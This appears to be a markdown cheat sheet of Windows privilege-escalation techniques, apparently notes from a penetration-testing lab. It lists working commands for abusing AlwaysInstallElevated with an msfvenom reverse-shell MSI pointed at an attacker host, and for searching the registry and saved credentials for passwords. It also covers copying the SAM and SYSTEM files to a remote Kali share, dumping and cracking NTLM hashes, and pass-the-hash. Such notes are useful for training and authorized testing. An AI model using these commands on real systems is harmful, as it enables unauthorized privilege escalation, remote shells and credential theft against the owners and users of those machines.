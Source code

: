 - check AlwaysInstallElevated keys

```bash
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated

reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated

```

if keys are set to 1 (0x1) then we can exploit this missconfig.

- create msi payload

`msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.2.15 LPORT=4444 -f msi -o reverse.msi`

- run installer

`msiexec /quiet /qn /i C:\PrivEsc\reverse.msi`

**`Passwords - Registr`**

password store in registry 

- search for password keyword in registry.

`reg query HKLM /f password /t REG_SZ /s`
`reg query "HKLM\Software\Microsoft\Windows NT\CurrentVersion\winlogon"`


**`Passwords- Saved Creds`**

- list all saved password.

`cmdkey /list`

- run payload through runas with savecred option.

`runas /savecred /user:admin C:\Temp\payload.exe`



**`Passwords - Security Account Manager (SAM)`**

some misconfig store sam and system file in ` C:\Windows\Repair\`

- copy both files (sam&system) from ` C:\Windows\Repair\` to kali vm.

`copy C:\Windows\Repair\SAM \\10.10.2.10\kali\`  
`copy C:\Windows\Repair\SYSTEM \\10.2.10.10\kali\`

- clone creddump7 

`git clone https://github.com/Tib3rius/creddump7`
`pip3 install pycrypto`
`python3 creddump7/pwdump.py SYSTEM SAM`

- Crack NTLM hash

`hashcat -m 1000 --force <hash> /usr/share/wordlists/rockyou.txt`


**` Passwords - Passing the Hash`**

- psexec
- pth-winexe
